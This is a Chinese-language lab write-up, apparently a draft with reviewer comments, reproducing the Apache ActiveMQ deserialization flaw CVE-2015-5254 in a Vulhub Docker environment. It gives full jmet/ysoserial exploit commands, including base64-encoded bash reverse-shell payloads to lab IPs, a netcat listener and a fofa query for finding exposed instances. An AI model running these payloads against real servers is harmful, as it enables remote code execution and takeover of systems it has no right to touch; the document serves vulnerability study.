






# 复现漏洞系列
## 第一篇、ActiveMQ反序列化漏洞（CVE-2015-5254）
### 一、 介绍
#### 1.1 简介
ActiveMQ 全名：Apache ActiveMQ，是Apache软件基金会所研发的开放源代码消息中间件；由于ActiveMQ是一个纯Java程序，因此只需要操作系统支持Java虚拟机，ActiveMQ便可执行。   
是一款老牌的消息队列，同类型产品有：ZeroMQ小，RabbitMQ，Kakfa和RocketMQ。   
主要作用是异步处理，应用解耦，流量削锋和消息通讯。
#### 1.2 bug影响
大于5.0而小于5.13的版本
截止2021-08-17 已经更新到5.16.3

#### 1.3 漏洞原因
官方解释为：漏洞没有限制在代理中序列化的类，远程攻击者可以借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行恶意代码。   
个人理解为：一个消息队列，你传进去一个可执行对象（序列化对象），他也允许了，但在查看这条消息的时候，java进行了反序列化操作，也就是说他实例化了你的对象，从而执行了恶意代码。   
原本是为了使消息队列可以传递bean之类的对象，最后却执行了恶意代码。

#### 加入使用概率：

https://blog.csdn.net/Aaron_Miller/article/details/106499427

业务场景
（Tips：介绍业务场景便于我们对拿到一个站点思考是否可能应用此消息队列组件）

  消息队列在大型电子商务类网站（JD、淘宝等）深入应用，主要消除高并发访问高峰，加快网站响应速度。

（例如：不使用消息队列用户请求会直接写入数据库，在高并发情况下会对数据库造成大压力，使系统响应延迟加剧。
在使用消息队列后，用户的请求发给队列后不会立即返回，如有时提交了订单，系统提示：“您提交了订单、请等待系统确认！”
再由消息队列组件从消息队列中获取数据，异步写入数据库，从而响应延迟得以改善）

1.5 使用概率
（Tips：探测全世界使用概率可以对ActiveMQ组件使用概率心中有一个大体认识，这一点很重要！）

fofa探测各国使用数量（app=“Apache-ActiveMQ”）


#### 1.4 复现要求
* 版本处于bug要求
* 能够写入消息队列（换言之，能够在正式环境下找到会写入mq的业务并确认写入mq的具体部分）
* 需要有人查看消息队列来执行，一般恶意代码为创建用户，在目标查看后即可登录shell
### 二、复现
#### 1 模拟环境
* 通过Vulhub进行环境模拟
```
目录
~/Vulhub/activemq/CVE-2015-5254 
命令
docker-compose up -d
```
* 查看相关信息
```
# 查看容器相关信息确认ip（为与宿主机区分，如有多台实验机，可尝试实体机）
docker inspect 容器ID/容器名
# 得到 "IPAddress": 172.26.0.2（如果需要访问，需要添加路由，后续以本机ip为准）192.168.1.13

# 通过docker-compose.yml可知activemq相关端口
# 得到 ports:
    - "61616:61616"
    - "8161:8161"%
# 当然也可以通过 netstat 查询
```
* 查看部署情况
  通过宿主机进行打开
  
#### 2.bug使用
* 使用jmet进行漏洞利用   
```
jmet 原理是使用 ysoserial（ysoserial集合了各种java反序列payload） 生成 Payload 并发送（其 jar 内自带 ysoserial无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选一个可以使用的，比如 ROME。
```
* GitHub地址：https://github.com/matthiaskaiser/jmet/releases

#### 加入：

这里可以加入这个代码的分析，我做的不太好，我就不写了，可以不加入


```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y "touch /tmp/success" -Yp ROME 192.168.1.13 61616
注：本人默认jdk10执行报错(但貌似写入成功），切换为1.8成功不报异常
```
* 成功后查看是否写入
```http://192.168.1.13:8161/admin/browse.jsp?JMSDestination=event
注：默认用户名密码均为admin  加这里的用户名密码是做什么，要说明
```
     
* 点击对应消息及为查看，activemq则执行对应反序列化文件
  
* 现在是需要验收的阶段了，进入docker容器中查看/tmp是否生成success文件
  ```
  docker exec -it  cve-2015-5254_activemq_1 /bin/bash
  ```
  
* 确认生成之后，我们来尝试利用（反弹shell）
  ```
  mac 安装nc brew install netcat
  监听 netcat -lvvp 19111
  #发送bash弹shell的命令payload到服务器
  java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y "bash -c {echo,YmFzaCUyMC1pJTIwJTNFJTI2JTIwL2Rldi90Y3AvMTkyLjE2OC4xLjEzLzE5MTExJTIwMCUzRSUyNjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.1.13 61616
  
  ```
  
  * 添加成功

java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y "bash -c {echo,YmFzaCUyMC1pJTIwJTNFJTI2JTIwL2Rldi90Y3AvMTkyLjE2OC4xLjEzLzE5MTExJTIwMCUzRSUyNjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.1.13 61616

命令分析

下面是我看到的命令，和你的有一些区别

My event. 你需要确认一下

```
java -jar jmet-0.1.0-all.jar -Q myevent -I ActiveMQ -Y "bash -c {echo YmFzaCAtaSAmZ3Q7Ji9kZXYvdGNwLzE5Mi4xNjguMTAxLjE0LzEzMTQgMCZndDsmMQ==}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.101.9 61616
```

# 连接后如下
  


# 修复建议

升级版本补丁

在WAF上过滤相关命令，建立对应安全规则